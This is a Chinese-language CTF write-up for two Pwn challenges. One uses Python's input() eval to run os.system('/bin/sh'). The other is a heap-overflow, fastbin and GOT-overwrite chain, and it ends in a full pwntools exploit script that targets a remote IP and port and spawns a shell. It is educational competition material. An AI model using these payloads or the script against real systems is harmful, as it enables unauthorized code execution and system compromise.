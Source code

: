 ## Pwn

### babyjsc

jsc没给diff。
审计server.py发现存在input()函数
input()最终会调用eval再次执行一遍，并且程序import os了，可以直接rce。
os.system('/bin/sh')

### nofree
程序调用strdup来申请堆，但strdup分配的chunk大小是根据字符串长度进行，在给size[i]赋值时候没考虑这点，导致存储的size可以大于实际chunk size，从而造成堆溢出。
堆溢出修改topchunk的size。
之后申请topchunk的大小，会减少两个0x10的chunk块后，如果size大小在fastbin大小内，则会被free进入fastbin链表。
此时可以劫持fastbin的fd来制造fastbin attack。
提前在bss上伪造好头部后就可以劫持heap列表后实现无限次任意地址写。
libc的leak通过修改strdup为printf。之后add(content)为printf(content)，直接格式化字符串来leak栈上残留的libc地址。
最终修改strdup为system来getshell。
```python
from pwn import *
def add(idx, size, content='a'):
	r.sendlineafter("choice>> ", "1")
	r.sendlineafter("idx: ", str(idx))
	r.sendlineafter("size: ", str(size))
	r.sendafter("content: ", content)

def edit(idx, content):
	r.sendlineafter("choice>> ", "2")
	r.sendlineafter("idx: ", str(idx))
	r.sendafter("content: ", content)

def gd():
	gdb.attach(r)
	pause()
#r = process('./nofree')
libc=ELF('./libc-2.23.so')
elf=ELF('./nofree')
r = remote('101.200.53.148',12301)
for i in range(24):
	add(0,0x90,'a'*0x90)
add(0, 0x90, 'a' * 0x50)
edit(0, 'a'*0x50 +p64(0)+ p64(0xa1))
add(1, 0x90, "a" * 0x90)
add(1, 0x81,)
edit(0, 'a'*0x50 +p64(0)+p64(0x81)+p64(0x6021D0))
add(2, 0x70, "a" * 0x70)
add(2, 0x70, "a" * 0x70)
edit(2, p64(elf.got['strdup']) + p64(0x100))
edit(2,p64(elf.plt['printf']))
add(0, 0x10, "%4$p\n")
r.recvuntil('0x')
leak = int(r.recv(12),16)
print hex(leak)
lbase=leak-0x5ED700
edit(2, p64(lbase + 0x453a0))
add(0, 0x10, "/bin/sh\x00")

r.interactive()
```
